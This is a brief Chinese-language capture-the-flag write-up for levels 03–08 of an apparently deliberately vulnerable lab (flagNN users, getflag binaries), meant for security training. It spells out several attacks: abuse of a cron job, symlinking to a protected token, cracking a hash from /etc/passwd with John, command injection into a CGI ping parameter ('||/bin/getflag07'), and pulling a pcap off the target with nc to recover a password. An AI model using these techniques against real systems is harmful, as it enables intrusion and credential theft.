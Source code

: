 # Level03

1.	在用户目录下写一个getflag( /bin/getflag03 > ~/flag), 将它拷贝到漏洞目录下
2.	等待一会crontab执行, 查看获得flag

![03](https://s2.loli.net/2021/12/17/XxwEAyrfPTRWchu.png)

# Level04

1. 在用户目录下创建链接至/home/flag04/token
2. 执行flag04, 查看token
3.	切换到用户flag04, 执行/bin/getflag04

![04](https://s2.loli.net/2021/12/17/43lnuvaASCTp7mK.png)

# Level05

1.	将压缩包解压到用户目录下: tar zxvf backup-2017.tar.gz -C ~/
2.	使用ssh密钥登录flag05: ssh -i .ssh/id_rsa flag05@192.168.195.128
3.	运行/bin/flag05获得flag

![05](https://s2.loli.net/2021/12/17/5zaHnPuKIGVdlhJ.png)

# Level06

1.	查看/etc/passwd, 发现flag06密码的密文存在了这里
2.	使用kali的john插件进行破解, 得到flag06的密码 ftc
3.	登录用户flag06, 运行/bin/getflag06

![06](https://s2.loli.net/2021/12/17/JIARGCDTc7Y5kKg.png)

# Level07

1.	index.cgi监听端口8888, CGI采用get方法响应请求, 该程序传输 Host参数
2.	构造语句闭合ping命令( ||/bin/getflag07)

![07](https://s2.loli.net/2021/12/17/2Xz7KtonCUbvw1O.png)

# Level08

1. 使用nc将capture.pcap传到kali:
   + 靶机 nc -lp 4455 < capture.pcap -q 1
   + 攻击机 nc -nv 192.168.1.233 4455 > cap.pcap
2. 使用Wireshark进行分析, 追踪TCP流, 得到Password: backd00Rmate
3.	登录flag08, 执行/bin/getflag08得到flag
